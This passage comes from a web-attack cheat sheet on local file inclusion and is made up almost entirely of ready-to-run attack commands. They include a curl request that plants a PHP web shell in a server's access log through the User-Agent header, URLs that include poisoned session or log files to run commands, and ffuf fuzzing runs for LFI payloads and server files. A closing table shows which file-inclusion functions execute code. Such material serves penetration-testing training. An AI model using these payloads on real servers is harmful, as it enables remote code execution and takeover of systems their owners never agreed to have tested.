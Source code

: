 | `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`                                          | RCE through poisoned PHP session      |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`                                         | Poison server log                     |
| `/index.php?language=/var/log/apache2/access.log&cmd=id`                                                                    | RCE through poisoned PHP session      |

### Misc

| **Command**                                                                                                                                                                          | **Description**            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------- |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`                                      | Fuzz page parameters       |
| `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`                                                      | Fuzz LFI payloads          |
| `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path          |
| `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`                                                                      | Fuzz server configurations |
| [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)                                                                                                  |                            |
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)                                                                                |                            |
| [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)                                 |                            |
| [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)                             |                            |
| [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)                                                    |                            |
| [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)                                                |                            |

### File Inclusion Functions

<table data-header-hidden><thead><tr><th width="213"></th><th align="center"></th><th align="center"></th><th align="center"></th></tr></thead><tbody><tr><td><strong>Function</strong></td><td align="center"><strong>Read Content</strong></td><td align="center"><strong>Execute</strong></td><td align="center"><strong>Remote URL</strong></td></tr><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>require()</code>/<code>require_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td><code>file_get_contents()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">✅</td></tr><tr><td><code>fopen()</code>/<code>file()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">❌</td></tr><tr><td></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><strong>NodeJS</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>fs.readFile()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">❌</td></tr><tr><td><code>fs.sendFile()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">❌</td></tr><tr><td><code>res.render()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">❌</td></tr><tr><td></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">❌</td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>@Html.Partial()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">❌</td></tr><tr><td><code>@Html.RemotePartial()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">✅</td></tr><tr><td><code>Response.WriteFile()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">❌</td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>
